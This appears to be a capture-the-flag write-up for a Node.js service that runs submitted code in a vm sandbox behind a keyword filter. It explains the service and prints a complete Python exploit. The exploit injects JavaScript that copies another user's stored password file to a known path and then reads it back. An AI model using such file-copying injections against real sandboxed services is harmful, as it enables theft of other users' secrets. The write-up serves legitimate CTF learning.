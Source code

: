 The full functionality:

- If `flag_id`, `token` and `code` is specified as JSON
  - the code is run if it passes the filter (`eval`, `global`, `Function` and `this` is not alowed)
  - the code can't use `require` because [it's not exposed by default](https://groups.google.com/forum/#!topic/nodejs/vFkaH8gouDU) when using the `vm` module
  - if it sets the variable `password` then the code is stored in this file: `submissions/{flag_id}-{token}`
- If only `flag_id` and `token` is specified
  - the password from the `submissions/{flag_id}-{token}` file is read and returned
  - but only if the password is 16 alphanumerical character

Exploitation
------------

Our exploit worked like this:

1. Upload a code,
2. that finds the file associated with the flag_id
3. and copies the file to a known location.
4. Use the password retrieval functionality to retrieve the password from the known location.

Here's the full exploit code:

```python
import urllib2
import json
import re


class Exploit():
    code = """
    fname = ff.readdirSync('./submissions').filter(function(name) { return name.match(/^%s-.*/) })[0];
    ff.writeFileSync('./submissions/spamandhex-1', ff.readFileSync('./submissions/' + fname));
    """

    def get(self, url, flag_id, token):
        data = json.dumps({ "flag_id": flag_id, "token": token })
        return urllib2.urlopen(url=url, data=data).read()

    def set(self, url, flag_id, token, code):
        data = json.dumps({ "flag_id": flag_id, "token": token, "code": code })
        return urllib2.urlopen(url=url, data=data).read()

    def execute(self, ip, port, flag_id):
        url = 'http://%s:%s' % (ip, port)
        self.set(url, '1234', '1', Exploit.code % flag_id)
        result = self.get(url, 'spamandhex', '1')
        self.flag = re.findall('Your password: (.*)', result)[0]

    def result(self):
        return {'FLAG' : self.flag}
```
